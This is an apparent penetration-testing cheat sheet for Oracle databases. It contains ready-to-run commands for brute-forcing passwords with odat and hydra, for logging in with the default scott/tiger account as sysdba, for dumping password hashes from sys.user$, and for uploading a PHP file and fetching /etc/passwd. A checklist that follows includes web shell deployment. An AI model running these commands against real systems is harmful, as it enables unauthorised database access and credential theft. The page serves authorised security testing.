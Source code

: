 ### Authentication
```bash
./odat.py passwordguesser -s target -d XE -U system
hydra -L users.txt -P passwords.txt oracle-listener://target
sqlplus scott/tiger@target:1521/XE as sysdba
```

### Enumeration
```sql
SELECT * FROM v$version;
SELECT * FROM user_role_privs;
SELECT table_name FROM all_tables;
SELECT name, password FROM sys.user$;
```

### File Operations
```bash
./odat.py utlfile -s target -d XE -U scott -P tiger --putFile /path/file.php ./file.php
./odat.py utlfile -s target -d XE -U scott -P tiger --getFile /etc/passwd passwd.txt
```

---

## Testing Checklist

#### Discovery & Detection
- [ ] Port 1521 open and accessible
- [ ] Oracle TNS version identification
- [ ] Alternative port discovery
- [ ] Service banner analysis

#### SID Enumeration
- [ ] Default SID testing (XE, ORCL)
- [ ] SID brute force attacks
- [ ] Custom SID wordlist testing
- [ ] Service name enumeration

#### Authentication Testing
- [ ] Default credential testing
- [ ] Password brute force attacks
- [ ] Account status verification
- [ ] SYSDBA privilege testing

#### Database Enumeration
- [ ] Schema and table discovery
- [ ] User and privilege enumeration
- [ ] System configuration analysis
- [ ] Sensitive data identification

#### File System Testing
- [ ] File upload capabilities
- [ ] File download testing
- [ ] Directory traversal attempts
- [ ] Web shell deployment

---